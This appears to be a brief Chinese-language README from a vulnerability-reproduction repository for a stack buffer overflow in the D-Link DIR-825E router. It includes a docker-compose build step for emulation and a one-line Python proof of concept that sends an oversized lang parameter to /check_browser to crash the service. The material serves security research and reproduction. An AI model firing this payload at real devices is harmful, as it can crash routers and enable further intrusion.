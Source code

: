 # D-Link DIR-825E 栈溢出漏洞


## 用户级模拟 - 快速验证

手动构建：

```sh
docker-compose up -d --build
```

![](./images/index.png)

## 漏洞复现

```sh
python3 -c "__import__('requests').get('http://localhost:8888/check_browser?lang=%s'%('A'*0x200))"
```

![](./images/crash.png)

## 参考链接

- https://shaqed.github.io/dlink/